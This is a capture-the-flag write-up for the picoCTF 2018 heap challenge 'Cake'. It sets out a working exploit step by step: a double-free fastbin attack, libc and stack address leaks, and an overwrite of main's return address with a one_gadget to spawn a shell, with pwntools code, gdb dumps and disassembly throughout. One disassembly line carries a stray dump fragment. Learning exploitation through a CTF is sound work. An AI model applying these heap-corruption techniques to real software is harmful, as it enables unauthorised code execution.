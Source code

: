# Cake
**Category:** Binary Exploitation

**Points:** 900

**Description:** 
Now that you're a professional heap baker, can you pwn this for us? It should be a piece of cake. Connect with `nc 2018shell2.picoctf.com 54086`. [libc.so.6](https://2018shell2.picoctf.com/static/397794d1487f1c94583fbf0437799b5d/libc.so.6)

----------

## Solution

### Notes
I got a lot of core dumps during this process of trial and error, and the following made my debugging life so much easier.

* Make sure the provided `libc` is *NOT* in the current directory; you will actually lose debug symbols by doing so. Just use `libc.so.6` from the system path on the shell server.

* Also, having a copy of `malloc.c` from `glibc` version 2.23 is very helpful.

### Initial Observations

Like other picoCTF binary exploit problems, compiler optimization is disabled. Given the relatively simple logic of the program, decompiling by hand isn’t too bad. You can find the source code [here](https://github.com/jespiron/picoCTF-2018/blob/master/binary/cake/cake.c), of which I omitted some parts.

Upon serving the same cake twice, we find a crash due to a double-free bug. This gives us the opportunity for a `fastbin` attack.

Our exploit will have something to do with the global variable `shop`, the `0x20` byte memory chunks allocated by `make()`, and `inspect()`.

### Leaking the return address
We first need to get the `libc` address. After that, we can get the stack address via `libc.environ`, according to [this guy](https://github.com/Naetw/CTF-pwn-tips).

This program uses `stdin`, which points to `_IO_2_1_stdin_` in libc.

```
(gdb) x/4gx 0x6030d0
0x6030d0 <stdin@@GLIBC_2.2.5>:  <b>0x00007ffff7dd18e0</b>      0x0000000000000000
0x6030e0 <shop>:        0x0000000000000000      0x0000000000000000
(gdb) x/2gx 0x00007ffff7dd18e0
0x7ffff7dd18e0 <<b>_IO_2_1_stdin_</b>>:        0x00000000fbad2088      0x0000000000000000
```

We have indirect control over `shop + 0x00` (total sales) and `shop + 0x08` (number of customers waiting).

Initially, I tried `shop + 0x00`. I got the leak, but wound up having a corrupted chunk in `fastbin` I lost control of. As a result, the subsequent `malloc` calls resulted in crash.

Thus, we will use `shop + 0x08` instead.

I used the following code to get the address of the `cake` symbols and the pre-ASLR addresses of the `libc` symbols.

```python
cake = ELF(“./cake”)

shop = cake.symbols['shop']
stdin = cake.symbols['stdin']

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

file_IO_2_1_stdin_ = libc.symbols['_IO_2_1_stdin_']
file_environ = libc.symbols['environ']
file_libc_text = libc.get_section_by_name('.text').header.sh_addr
```

First, prepare a fake chunk for `fastbin`. The size of all of the malloc requests are hardcoded as 0x10 bytes and fall into `fastbin[0]`. Hence, we must keep `shop + 0x8` in the range of `0x20`-`0x2f`. We're allowed up to `0x2f` because `malloc` ignores the lower 4 bits when allocating from `fastbin`.

For every line of input to `main`, there is a $`\frac{1}{3}`$ chance of receiving a new customer. Therefore, we will need at least `96` arbitrary commands to get `0x20` customers. 
However, due to the `serve()` command, we must take into account of decrementing the customer headcount.

Through some trial and error, I used 108 `“T”` commands, but any other invalid cake command would work too. I didn’t use the valid `“W”` command, since it called `spin()`, which took up time.

```python
conn.send("T\n" * 108)
for i in range(109):
    wait_prompt()
```

Next, follow the logic in `fastbin_dup.c` from https://github.com/shellphish/how2heap.

```python
c0 = make_cake(0x0, p64(0x0))  # chunk_0
c1 = make_cake(0x0, '')  # chunk_1
serve(c0)  # fastbin[0] -> chunk_0
serve(c1)  # fastbin[0] -> chunk_1 -> chunk_0
serve(c0)  # fastbin[0] -> chunk_0 -> chunk_1 -> chunk_0
chunk_1 = inspect(c0)
chunk_0 = inspect(c1)
```

Third, link our fake chunk `shop` into `fastbin`.
```python
c2 = make_cake(shop, p64(0x0))   # malloc return chunk_0
c3 = make_cake(0x0, '')          # malloc return chunk_1
c4 = make_cake(shop, p64(0x21))  # malloc return chunk_0
```

As shown in the debugger, `shop` is now in `fastbin`. Because the debug symbols are available, we can just use C-like syntax to check `fastbin`'s values.

```
(gdb) print main_arena.fastbinsY[0]
$3 = (mfastbinptr) 0x6030e0 <shop>
```

Consequently, `malloc` will return `shop + 0x10` when we make our next `cake` request.

We set its name to `"stdin"`. This will place the address of `"stdin"` into `shop + 0x18`, which corresponds to `cake` 1.

```python
c5 = make_cake(shop, p64(stdin))
_IO_2_1_stdin_ = inspect(1)  # read the address from cake #1

libc_reloc_delta = _IO_2_1_stdin_ - file_IO_2_1_stdin_
libc_text = libc_reloc_delta + file_libc_text
libc_environ = libc_reloc_delta + file_environ
```
We set its price to `shop` to create a circular singly linked list (depicted below).
```
   shop + 0x00 -> value doesn’t matter
   shop + 0x08 -> must be in the range of 0x20 ~ 0x2f
   shop + 0x10 -> fd (next free chunk) points to shop!
   shop + 0x18 -> use for leaking
```

Let’s look at what `fastbin` has now. As expected, `fastbin[0]` has `chunk_0`’s address, so we need the `0x21` in `c4 = make_cake(shop, p64(0x21))` to pass the `malloc` chunk size validation for making `c6` later.

```
(gdb) print main_arena.fastbinsY[0]
$1 = (mfastbinptr) 0x156e020
(gdb) x/2gx 0x156e020
0x156e020:      0x00000000006030e0      0x0000000000000021
(gdb) x/8gx &shop
0x6030e0 <shop>:        0x0000000000000000      0x0000000000000021
0x6030f0 <shop+16>:     0x00000000006030e0      0x00000000006030d0
0x603100 <shop+32>:     0x000000000156e020      0x000000000156e040
0x603110 <shop+48>:     0x000000000156e020      0x00000000006030f0
```
Let’s get the corrupted `chunk_0` off of `fastbin`. It is corrupted because it points to `chunk_0`’s user space instead of `malloc`’s chunk header (`0x10` bytes ahead of the user space).

We make `c6`, which succeeds thanks to the `0x21` when making `c4`.

Because of the corruption, `malloc` will return `chunk_0 + 0x10` for making `c6`, which is the header of `chunk_1`. We shouldn't change `chunk_1`’s header, so we use its original value of `0x21` in order for another subsequent `malloc` (not mentioned here) to succeed.

```python
c6 = make_cake(0x0, p64(0x21))  # chunk_0 + 0x10
```

Next, we use `libc.environ` to leak the stack address. Again, we utilize the `fastbin` trick to add our faked circular chunk `shop` into `fastbin`. `shop + 0x10` has the desired value, 
`shop`, pointing to its own chunk header. Therefore, after this round, `fastbin[0]` will return `shop + 0x10` so as long as `shop + 0x8` remains in the range of `0x20`-`0x2f`.

### Redirecting to one_gadget by changing the return address of the main function

Let’s take a look at the `make()` function again. It first overwrites the second 8-byte block of the newly allocated memory for `name`, then the first 8-byte block for `price`.

Note that it doesn’t keep the address of the newly allocated memory in a register. It always reads from memory due to compiler optimization being disabled. This gives us the opportunity to overwrite the memory for holding the newly allocated address during the first 8-byte read for `name`. When the program reads in the price, it will write into the location we set for the `name`.

```
   0x0000000000400c0b <+207>:   mov    -0x28(%rbp),%rax
   0x0000000000400c0f <+211>:   mov    -0x14(%rbp),%edx
   0x0000000000400c12 <+214>:   movslq %edx,%rdx
   0x0000000000400c15 <+217>:   add    $0x2,%rdx
   0x0000000000400c19 <+221>:   mov    (%rax,%rdx,8),%rax
   0x0000000000400c1d <+225>:   add    $0x8,%rax
   0x0000000000400c21 <+229>:   mov    $0x8,%esi
   0x0000000000400c26 <+234>:   mov    %rax,%rdi
   0x0000000000400c29 <+237>:   callq  0x400a99 <fgets_eat>
...
   0x0000000000400c3d <+257>:   mov    -0x28(%rbp),%rax
   0x0000000000400c41 <+261>:   mov    -0x14(%rbp),%edx
   0x0000000000400c44 <+264>:   movslq %edx,%rdx
   0x0000000000400c47 <+267>:   add    $0x2,%rdx
   0x0000000000400c4b <+271>:   mov    (%rax,%rdx,8),%rbx
   0x0000000000400c4f <+275>:   mov    $0x0,%eax
   0x0000000000400c54 <+280>:   callq  0x400a40 <get>
   0x0000000000400c59 <+285>:   mov    %rax,(%rbx)0x603110 <shop+48>:     
```
For this to work, we need to make sure the new `cake` is stored in slot 1 so that `shop + 0x18` will point to `shop + 0x10` (remember that we tricked `malloc` to always return `shop + 0x10`).

The second 8-byte block of `shop + 0x10` is `shop + 0x18`. As a result, reading in `name` will overwrite slot 1 itself.
To achieve this, just set `shop + 0x18` to `NULL`. We can do this because `malloc` always returns `shop + 0x10`.

```python
c11 = make_cake(shop, p64(0))
```

We set the return address of the `main` function to the `one_gadget` address* in `libc`. Once we close the shop, we will get into the shell.

```python
c1 = make_cake(one_gadget, p64(main_return_address))
conn.send("C\n")
```

*I found the `one_gadget` address using [this handy tool](https://github.com/david942j/one_gadget)! I picked `0x45216` because the `main` function returns `0`, thus satisfying the stated `one_gadget` constraint of `rax` being `null`.

